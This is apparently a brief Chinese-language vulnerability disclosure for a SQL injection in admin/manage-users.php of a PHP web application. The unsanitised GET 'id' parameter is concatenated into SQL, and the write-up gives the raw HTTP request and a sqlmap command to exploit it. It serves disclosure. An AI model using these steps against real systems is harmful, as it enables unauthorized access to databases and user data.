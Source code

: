 admin/manage-users.php文件中 $adminid 直接拼接到sql语句中，而$adminid是通过GET请求直接获取的


![alt text](manage-users.php%20sql%20inject-1.png)


构造恶意数据包

GET /admin/manage-users.php?id=1 HTTP/1.1
Host: test.jc
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://test.jc/admin/
Accept-Language: zh-CN,zh;q=0.9


run sqlmap -r get.txt --level 3


![alt text](manage-users.php%20sql%20inject-2.png)
